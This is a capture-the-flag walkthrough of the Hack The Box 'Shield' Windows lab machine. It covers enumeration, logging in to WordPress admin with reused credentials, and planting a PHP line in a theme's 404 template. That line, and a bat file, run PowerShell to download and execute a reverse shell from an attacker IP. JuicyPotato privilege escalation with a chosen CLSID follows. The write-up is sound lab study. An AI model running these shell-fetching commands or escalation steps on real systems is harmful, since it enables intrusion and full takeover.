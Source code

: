 ```yaml
---
layout: single
title: Hack The Box - Shield
permalink: /htb-sheild/
excerpt: "Starting Point Machine"
classes: wide
header:
  teaser: "/assets/images/htb/shield/shield.png"
  teaser_home_page: true
categories:
  - hackthebox
  - starting-point
  - windows
  - infosec
tags:
  - juicy-potato
  - seImpersonatePrivilege
---
```



![1](/assets/images/htb/shield/shield.png)


_This is machine from starting point series_ <br>
_You can download official pdf file to view the walkthrough_

# <u>1:Enumeration</u>

- scan top 1000 ports
- the result

```sql
nmap -sC -sV -oN nmap/initial 10.10.10.29
```
![1](/assets/images/htb/shield/1.png)

- scan all ports
- the result

```sql
nmap -sC -sV -p- -oN nmap/all_ports 10.10.10.29
```

![1](/assets/images/htb/shield/2.png)

- all scan still the same
- open ports
	- 80 / http
	- 3306 / mysql

## <u>WebPage</u>

- Just default windows server page

![1](/assets/images/htb/shield/3.png)

### <u>Gobuster</u>

- Using gobuster to find any hidden directory
- the result

![1](/assets/images/htb/shield/4.png)

### <u>WordPress</u>

- the result show this server have `wordpress` install
- as we know, the wordpress login path is `/wp-admin`
- let's take a look

### <u>Admin Login</u>

- Try to login as admin with credentials from previous box `vaccine`
- Success

![1](/assets/images/htb/shield/7.png)

# <u>2:Foothold/Gaining Access</u>

### <u>WordPress Theme Injection</u>
- Let's try get the reverse shell by injected the theme
- I'm gonna use this theme "GutenBooster" 
  - and the shell I'm gonna use [Nishang](https://github.com/samratashok/nishang)
- Now, I'm gonna put command in the `404.php`. 
- Which is a 404 template
- Source
  - [Wordpress: Reverse Shell](https://www.hackingarticles.in/wordpress-reverse-shell/)

```php
<?php
exec('powershell IEX(IWR http://10.10.16.13:8000/rev.ps1 -UseBasicParsing)')
?>
```

- This command will download the reverse shell and execute it

![1](/assets/images/htb/shield/8.png)

- Well, the reverse shell is succefully execute 

### <u>SeImpersonatePrivilege</u>

- everytime you've got `powershell reverse shell`
- make sure to run
  - `whoami /all`

- The result

![1](/assets/images/htb/shield/9.png)

- Looks like `SeImpersonatePrivilege is enable `
- We can privesc by using `juicy potato`
- Source
  - [JuicyPotato - Github](https://github.com/ohpe/juicy-potato)
- download the binary into `local machine`. Then, upload into `victim machine`
- via this command
```powershell
IWR http://10.10.16.34:8000/JuicyPotato.exe -outfile again_gimme.exe
```

- then run the binary.
- the result

![1](/assets/images/htb/shield/12.png)

# <u>3:Privilege Escalation</u>

- First, I'm gonna make `bat` file with powershell command on it.
- I'm called the file `yo_my.bat`
- the command:
- Source
  - [IppSec - Making bat file](https://youtu.be/1ae64CdwLHE?t=2563)

```powershell
powershell "(IEX(IWR http://10.10.16.34:8000/rev.ps1 -UseBasicParsing))"
```

### <u>POTATO</u>

- I'm gonna run `again_gimme.exe` again with this flag:
  - `./again_gimme.exe -t * -p yo_my.bat -l 9902`

- the result

![1](/assets/images/htb/shield/13.png)

- it is failed but we can try with more `CLSID`
- Source
  - [IppSec - JuicyPotato fails with the default CLSID, changing it up to get it working.](https://youtube.com/watch?v=1ae64CdwLHE&t=2675)
  - [Windows CLSID](http://ohpe.it/juicy-potato/CLSID/)
- before we start using the CLSID. We're need to know what type of `OS version` this machine running on
- by using this command:
- `(Get-WmiObject Win32_OperatingSystem).Caption`
- the result

![1](/assets/images/htb/shield/14.png)

- Now, we're need to pick [Windows Server 2016 Standard CLSID](http://ohpe.it/juicy-potato/CLSID/Windows_Server_2016_Standard/) 
- I'm gonna try with `wpnservice CLSID`
- I'm gonna run this command

```powershell
.\again_gimme.exe -t * -p yo_my.bat -l 9902 -c '{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}'
```

> NOTE: Make sure you're running the nc for listening the connection
> 
> REMEMBER: The powershell command in the `bat file` was downloading another reverse shell file called `rev.ps1`.
> in that file. I'm listening on 9901. If you listen on the other port. Just change the port on that file.

- the result

![1](/assets/images/htb/shield/15.png)

- we've got the root flag

![1](/assets/images/htb/shield/16.png)

# <u>4:Conclusion</u>
I've learned a lot today. Do not put any credentials on the exposure machine to the hacker or non-secure machine. Even tho it's happened, quickly change the password. I'm also introducing a bunch of tools for windows pentest/hack. Lastly, always update and patch the machine.

I have a fun time doing this machine and I hope you guys do too. Bye ;)